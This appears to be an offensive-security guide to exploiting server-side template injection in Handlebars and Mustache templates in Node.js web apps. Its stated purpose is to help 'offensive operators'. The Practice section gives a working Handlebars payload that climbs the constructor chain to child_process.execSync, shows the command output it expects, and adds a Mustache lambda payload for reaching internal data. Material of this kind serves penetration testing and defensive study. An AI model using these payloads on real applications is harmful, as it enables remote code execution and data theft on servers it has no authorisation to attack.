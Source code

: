 ```yaml
---
title: Handlebars & Mustache Template Exploitation Guide
description: Learn to exploit Handlebars and Mustache for code execution and data
  access in Node.js web apps.
keywords:
- Handlebars exploitation
- Mustache injection
- Node.js template engine
- code execution
- SSTI vulnerabilities
---
```


# Handlebars/Mustache Exploitation

## Context

The purpose of this article is to enable offensive operators to exploit Handlebars and Mustache template engines for code execution or sensitive data access in Node.js web applications. It assumes the reader is familiar with general template engine concepts, understands the JavaScript execution context, and has a basic knowledge of the Node.js environment as well as Server-Side Template Injection (SSTI) fundamentals.

## Theory

### Handlebars and Mustache Template Engine Mechanics

Handlebars and Mustache are widely used JavaScript-based template engines that are employed in Node.js web applications. These engines allow for `logic-less` templates, which interpolate user-supplied data into server-rendered HTML. However, this interpolation process can become a vulnerability when attacker-controlled expressions are rendered by the server.

When untrusted input is processed within these templates, it may be executed through arbitrary helpers or expressions, turning into a possible avenue for exploitation. The injection flaw emerges, specifically, when security configurations are lax, allowing users to manipulate the behavior of the templates through special constructs in user-controllable input fields.

### Handlebars Injection Vectors and Helper Abuse

The primary injection vector in Handlebars involves embedding Handlebars expressions such as `{{expression}}` into fields that are rendered by the server. The potential for exploitation is heightened with custom helpers or when the configuration carelessly permits access to sensitive prototypes.

Attackers can bypass traditional sanitization mechanisms by embedding nested helpers or encoding payloads. These methods allow attackers to insert crafted expressions that take advantage of the template rendering logic and even execute arbitrary JavaScript.

### Mustache Injection and Lambda Exploitation

In Mustache, an attacker might inject Mustache tags like `{{tag}}` or leverage lambda functions, which can potentially lead to JavaScript execution. Improperly handled lambdas or custom tags can expose JavaScript execution primitives, especially when these constructs manipulate or expose sensitive server-side data during rendering.

### Node.js Security Implications

Successful template injection can escalate to arbitrary JavaScript execution within the Node.js process. This alarming potential means that an attacker may achieve remote code execution, access sensitive data, or entirely compromise the process hosting the application. Such exploits spotlight the need for vigilant security practices to counter these injection vulnerabilities effectively.

## Practice

### Handlebars Prototype Pollution and Arbitrary Code Execution

To achieve arbitrary code execution through Handlebars, an attacker must inject the following payload:

```handlebars
{{#with "s" as |string|}}{{#with string.constructor as |cons|}}{{#with cons.constructor as |c|}}{{c('return global.process.mainModule.require("child_process").execSync("id")')()}}{{/with}}{{/with}}{{/with}}
```

- Inject the payload in a user-controllable field such as a comment section or user profile name that reflects input through Handlebars.
- Submit the payload to the application and check for command execution via reflected output.

Expected outcome:

```text
uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
```

This output indicates successful execution of the `id` command, thereby confirming arbitrary command execution in the Node.js server context.

### Mustache Lambda Injection for Sensitive Data Access

With Mustache, a security weakness may be exploited using the following payload:

```handlebars
{{#lambda}}{{#this}}{{/this}}{{/lambda}}
```

- Place the payload into a user-controllable field processed by Mustache that supports lambda functions.
- Successful execution relies on the application’s internal lambdas, potentially allowing access to sensitive data.

Expected outcome:

```text
Sensitive data or internal variable values displayed in rendered output.
```

This indicates that sensitive data or internal variables have been accessed via lambda exploitation.

## Tools

- **tplmap**
- **Burp Suite**
- **curl**